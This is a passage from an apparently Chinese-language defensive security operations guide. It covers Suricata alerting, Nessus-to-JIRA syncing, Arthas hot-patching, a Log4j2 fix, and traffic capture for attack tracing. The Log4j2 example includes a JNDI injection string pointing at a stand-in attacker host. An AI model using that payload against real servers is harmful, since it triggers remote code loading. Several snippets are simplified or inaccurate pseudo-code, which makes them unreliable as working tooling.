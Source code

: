 • **告警集成**：  
  ```bash  
  # 实时推送告警到Elasticsearch  
  suricata -c suricata.yaml -i eth0 --set logging.outputs.1.es-server="http://es:9200"  
  ```

#### **2.3 漏洞管理自动化**  
• **Nessus与JIRA同步**：  
  ```python  
  # nessus_jira_sync.py  
  import jira  
  from nessus import NessusScanner  
  
  issues = NessusScanner().get_high_risk_vulns()  
  for issue in issues:  
      jira.create_issue(  
          project="SEC",  
          summary=f"[漏洞] {issue.name}",  
          description=issue.details,  
          priority="High"  
      )  
  ```

---

## **3. 应急响应与热修复**  

#### **3.1 漏洞热修复（Arthas）**  
• **动态修改方法逻辑**：  
  ```bash  
  # 监控方法调用  
  arthas-boot.jar  
  watch com.example.Service vulnerableMethod params -n 3  
  # 热替换.class文件  
  redefine /path/to/patched/Service.class  
  ```

• **案例**：修复Log4j2漏洞（无需重启）：  
  ```java  
  // 原漏洞代码  
  logger.error("Error: ${jndi:ldap://attacker.com}");  
  // Arthas热补丁  
  logger.error("Error: {}", sanitize(input));  
  ```

#### **3.2 攻击溯源（流量镜像分析）**  
• **捕获攻击流量**：  
  ```bash  
  tcpdump -i eth0 -w attack.pcap port 8080  
  ```
• **Wireshark分析步骤**：  
  1. 过滤HTTP请求：`http.request.method == "POST"`  
  2. 追踪TCP流（Follow TCP Stream）  
  3. 导出恶意Payload（如SQL注入语句）  
